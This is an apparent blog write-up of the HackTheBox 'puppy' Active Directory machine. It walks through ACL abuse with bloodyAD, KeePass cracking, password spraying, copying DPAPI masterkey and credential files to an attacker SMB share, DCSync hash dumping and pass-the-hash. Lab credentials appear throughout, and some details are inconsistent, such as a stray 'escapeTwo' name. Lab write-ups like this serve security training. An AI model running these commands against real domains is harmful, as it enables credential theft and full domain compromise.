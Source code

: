 ```yaml
---
categories:
- CTF
layout: post
image:
  path: preview.png
media_subpath: /assets/posts/2025-07-04-puppy-hackthebox
tags:
- hackthebox
- windows
- active directory
- acl
title: puppy @ HackTheBox
---
```

puppy is an medium Windows machine on [hackthebox.eu](https://www.hackthebox.eu). Starting credentials are given to you. Enumerating our starting account, we find ourselfs being apart of the HR group which has GenericWrite over the developers group. We add ourselfs to the Developers group which allows us to access the DEV SMB folder. Downloading the files we find a recovery key for keepass. Cracking this file gives us several usernames and passwords. Spraying these creds gains us access to a new account. This account is apart of the Senior Devs who has GenericAll over a user. Reseting their password gains us access to their account.
However, the account is set to disabled, using ldapmodify, we can enable the account. With this new user, they have a hidden file on their desktop, this file is encrypted using Windows DPAPI. By hosting your own smb share locally, we grab masterkey and the credentials file. Using impackets dpapi, decrypt the file with the masterkey to gain access to a new account. With this new user account, we can perform a desync attack on the domain controller, dumping the administrator hash and gaining control over the domain controller.

## User & Root Flag
This post is a walkthrough for escapeTwo, an medium machine on [hackthebox.eu](https://www.hackthebox.eu). 

The initial scan (`nmap -Pn -n -sC -sV -p- 10.129.168.239`) shows the following results:
```
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-04 23:43:26Z)
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2049/tcp  open  nlockmgr      1-4 (RPC #100021)
3260/tcp  open  iscsi?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49691/tcp open  msrpc         Microsoft Windows RPC
57284/tcp open  msrpc         Microsoft Windows RPC
57299/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-07-04T23:45:14
|_  start_date: N/A
|_clock-skew: 6h59m59s
```
## Fixing clock skew
```
sudo systemctl stop systemd-timesyncd
sudo ntpdate 10.129.168.239
```

## levi.james
Looking through bloodhound, levi.james is apart of the HR group who has GenericWrite over `Developers`.
![capture-1](capture-1.PNG)
```
bloodyAD --host '10.129.168.239' -d 'dc.puppy.htb' -u 'levi.james' -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james
```
![capture-3](capture-3.png)
Once we add ourselfs to the developers group, we can access the `DEV` smb share.

![capture-4](capture-4.PNG)
Downloading the files, we can use a keepass script to brute force the password.<br>
[keepass script](https://github.com/r3nt0n/keepass4brute)
![capture-5](capture-5.PNG)
Accessing this file reveals several usernames and passwords.
![capture-6](capture-6.PNG)
Using these usernames and passwords, we can spray them against the DC.
![capture-8](capture-8.PNG)

## ant.edwards
With a new username and password, we can access to ant's account.
Using bloodhound, we find that ant is apart of the senior developers group who has GenericAll privileges over adam.silver.
![capture-9.PNG](capture-9.PNG)
Using bloodyAD, we can reset his password.
```
bloodyAD --host '10.129.168.239' -d 'dc.puppy.htb' -u 'ant.edwards' -p 'Antman2025!' set password ADAM.SILVER Password123!
```
![capture-10.PNG](capture-10.PNG)
However, the account is disabled, so we'll have to enable it.
![capture-11.PNG](capture-11.PNG)
```
ldapsearch -x -H ldap://10.129.168.239 -D "ANT.EDWARDS@PUPPY.HTB" -W -b "DC=puppy,DC=htb" "(sAMAccountName=ADAM.SILVER)"
```
![capture-14.PNG](capture-14.PNG)

## adam.silver
Using `dir -h` in adam's desktop, we find a weird file.
This is most likely a hint towards DPAPI.
![capture-19.PNG](capture-19.PNG)
Create a shared smb folder (create a folder named share)
```
impacket-smbserver share ./share -smb2support
```
With the SMB share set up, copy the credentials and master key over.
```
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" \\10.10.16.48\share\masterkey

copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" \\10.10.16.48\share\credentials
```
![capture-20.PNG](capture-20.PNG)
![capture-21.PNG](capture-21.PNG)
Using impackets dpapi, we can decrypt the masterkey.
```
impacket-dpapi masterkey -file masterkey -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107
```
![capture-22.PNG](capture-22.PNG)
Using this key, we can then use it with the credentials file to get a new username and password.
![capture-23.PNG](capture-23.PNG)

## steph.cooper_adm
Viewing bloodhound, steph can perform a desync attack, allowing us to dump the hashes of the domain controller.
![capture-24.PNG](capture-24.PNG)
```
impacket-secretsdump 'puppy.htb/steph.cooper_adm:FivethChipOnItsWay2025!@10.129.232.128' 
```
![capture-25.PNG](capture-25.PNG)
```
evil-winrm -i 10.129.168.239 -u 'Administrator' -H 'bb0edc15e49ceb4120c7bd7e6e65d75b'
```